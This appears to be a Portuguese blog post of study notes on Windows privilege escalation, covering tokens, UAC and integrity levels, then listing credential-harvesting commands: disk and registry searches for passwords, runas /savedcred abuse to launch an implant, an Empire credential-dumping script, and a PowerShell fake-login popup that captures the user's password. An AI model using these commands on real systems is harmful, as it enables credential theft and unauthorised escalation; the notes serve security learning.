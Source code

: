 ```yaml
---
layout: post
title: windows priv-esc pt1
date: 2024-05-10
description: serie de windows Priv-Esc
categories: windows bhatagem
---
```


## Windows LPE notes...

```
- Priv-esc base:
  1. Pegar SYSTEM perm
  2. Assumir outro usuário
  3. Mudar integrity levels
  4. Tirar proveito de tokens
  5. Ganhar mais privilégios  
```

- De um lado temos os resources do sistema como arquivos, diretórios ou registries. E ous outros são usuários/process que desejam utilizar esses recursos...

- Entre resouces e process temos a divisão do sistema em que os process podem acessar qual recurso ... 
Como o acesso aos recursos é concedido ou negado ??
Então quando um resource possui o ```SECURITY DESCRIPTOR``` que é composto por ```OWNER```, ```GROUP``` e ```ACLs``` que descrevem quem pode ou não acessar os resources.
Por outro lado, os process usam tokens de acesso que são objects dedicados que descrevem a identidade do usuário. E o ```SECURITY REFERENCE MONITOR``` no Kernel verifica até mesmo a call de um process específico para um acesso específico é permitida ou não.
Primeiro é verificado o ```INTEGRITY LEVEL``` depois é verificado o OWNER e a ACL do resource.


- O process e os threads herdam um token dos parent process. Os Tokens de Acesso são a base de todas as autorizações ou "decisões" no sistema, concedidas ao usuário autorizado pelo LASS. Cada token de acesso inclui o ```CID``` dos usuários.
 - ```Primary Tokens``` = default security information of process or thread.
 - ```Impersonation Tokens``` = permite realizar operações utilizando token de acesso de outro usuário.

- ```PRIVILEGIES``` e ```ACCESS RIGHTS``` tem duas diferenças principais: Privilegies controlam o acesso a tarefas relacionadas ao sistema e Access Rights controlam o acesso a objects.
A segunda diferença é que os Privilegies são atribuídos a contas de usuário/grupo e os Access Rights atribuídos a ACLs de objetos.

```
- Privilegies:
  - Atribuido a users e groups
  - operações no sistema:
    - instalar/carregar drives
    - shutdown
    - mudar timezone


- Access Rights:
  - Atrbuido a Objects ACL
  - Acessar Objects protegidos:
    - arquivos/pastas, registry keys, services, network shares, access tokens...
```

- O ```User Access control``` (UAC) é um componente fundamental da visão geral de segurança da MS. O UAC ajuda a mitigar o impacto de malwares. Cada aplicativo que requer o administrator access token deve solicitar-lo. A única exceção é o relacionamento que existe entre ```parent processes```. Os ```Child Processes``` herdam o acess token do ```parent process```. Entretanto, os parents e child process devem ter o mesmo ```Integrity Level```. 
O Windows protege processes marcando seus integrity levels. Os Integrity Levels são medidas de confiança. Um programa integrity “alta” é aquele que executa tarefas que modificam dados do sistema, como um programa de particionamento de disco, enquanto um programa de integrity “baixa” é aquele que executa tarefas que podem comprometer o sistema operacional, como um navegador da Web. 
Programas com integrity level mais baixos não podem modificar dados em programas com integrity levels mais altos. 
Quando um usuário padrão tenta executar um programa que requer um access token de administrator, o UAC exige que o usuário forneça credenciais de administrador válidas.


- Integrity Level
  - [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/integrity-levels](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/integrity-levels)

- Filtered Admin Token or Restricted Access Token
  - [https://blog.palantir.com/windows-privilege-abuse-auditing-detection-and-defense-3078a403d74e](https://blog.palantir.com/windows-privilege-abuse-auditing-detection-and-defense-3078a403d74e)
  - [https://learn.microsoft.com/en-us/windows/win32/secauthz/restricted-tokens](https://learn.microsoft.com/en-us/windows/win32/secauthz/restricted-tokens)

- Permissões "perigosas"?
  - ```SeBackupPriv``` - read qualquer arquivo
  - ```SeRestorePriv``` - write em qualquer arquivo
  - ```SeTakeOwnershipPriv``` - se tornar owner
  - ```SeTcbPriv``` - se tornar parte do TCB
  - ```SeLoadDriverPriv``` - load/unload drivers
  - ```SeCreateTokenPriv``` - criar primary token
  - ```SeImpersonatePriv``` - se tornar outro user
  - ```SeDebugPriv``` - acessar a memória de qualquer process


#### READ/REFS

- [https://www.pwndefend.com/2021/08/18/windows-security-fundamentals-lpe/](https://www.pwndefend.com/2021/08/18/windows-security-fundamentals-lpe/)
- [https://dmfrsecurity.com/2021/05/16/review-red-team-operator-privilege-escalation-in-windows-course-by-sektor7-institute/](https://dmfrsecurity.com/2021/05/16/review-red-team-operator-privilege-escalation-in-windows-course-by-sektor7-institute/)


>___


### # Gathering Creds

> ### Procurando senhas em plaintext

- lista todos os diretorios a partir do c:\
- ``` C:\> dir /b /a /s c:\ > output.txt ```
  - em um cenário real você faz download do arquivo para a attack machine e analisa "offline"

- Filtra por arquivos com nome "passw"
- ``` C:\> type output.txt | findstr /i passw ```

https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dir#examples



> ### Nomes e Extenções de arquivos interessantes para verificar

- Extenções: install, backup, .bak, .log, .bat, .cmd, .vbs, .cnf, .conf, .conf, ,ini, .xml, .txt, .gpg, .pgp, .p12, .der, .crs, .cer, id_rsa, id_dsa, .ovpn, vnc,
ftp, ssh, vpn, git, .kdbx, .db

- Arquivos: unattend.xml, Unattended.xml, sysprep.inf, sysprep.xml, VARIABLES.DAT, setupinfo, setupinfo.bak, web.config, SiteList.xml, .aws\credentials, .azure\accessTokens,json, .azure\azureProfile.json, gcloud\credentials.db, gcloud\legacy_credentials, gcloud\access_tokens.db

- ``` C:\> type output.txt | findstr /i algumas extenção ```


> ### Arquivos nos Registries 

- ``` req query "HKCU\Software\ORL\WinVNC3\Passowrd" ```
 
- ``` req query "HKCU\Software\TightVNC\Server" ```

- ``` req query "HKCU\Software\SimonTatham\PuTTY\Sessions" ```

- ``` req query "HKCU\Software\SimonTatham\PuTTY\Sessions\local" ```

- ``` req query HKLM /f password /c REG_SZ /s ```

- ``` req query HKLM /f password /c REG_SZ /s ```



> ### Abusing Credential Manager

- Credential Manager
  - O Credential Manager é uma espécie de cofre digital dentro do sistema Windows. O Windows armazena credenciais de registry, como usernames e senhas...

- Do ponto de vista do invasor, geralmente você não tem acesso a uma GUI... Então você usa a linha de comando. Na linha de comando existe uma ferramenta chamada "cmdkey".

  - O cmdkey também permite listar essas informações.
    - ``` C:\> cmdkey /list ```

- Podemos executar como Admin também:
  - ``` C:\> runas /user:admin cmd.exe``` <===== precisa de admin pass

  - ``` C:\> runas /savedcred /user:admin cmd.exe ```
    - windows vai até Credential Manager, verifica o usuário admin (consulta o banco de dados), extrai a senha do usuário admin e executa o processo. (execute como administrador com integrity level medium)

- Podemos listar todos os diretórios aos quais não temos acesso.
  - ``` C:\> runas /savedcred /user:admin "c:\windows\system32\cmd.exe /c dir /b /a /s c:\users\admin > c:\output-admin.txt" ```
    - em um cenário real você faz download do arquivo para a attack machine e analisa "offline"

- Também podemos usar esse comando para rodar um implant:
  - ``` C:\> runas /savedcred /user:admin "c:\path\to\implant.exe" ```



> ### Extraindo creds do Credential Manager

- Script from Empire...

- C:\> powershell import-module c:\path\to\cms.ps1 ; Enum-Creds



> ### Popup local para pegar as creds de um user

- Cria um popup que pede a senha do usuário atual

- ``` C:\> powsershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::Username,[Environment]::UserDomainName); $cred.getnetworkcredential().password" ```

- ``` C:\> powsershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'CHANGE THIS WITH OTHER USERNAME',[Environment]::UserDomainName); $cred.getnetworkcredential().password" ```


Links adicionais:
- [https://fuzzysecurity.com/tutorials/16.html](https://fuzzysecurity.com/tutorials/16.html)
- [https://xz.aliyun.com/t/3618](https://xz.aliyun.com/t/3618)

>___
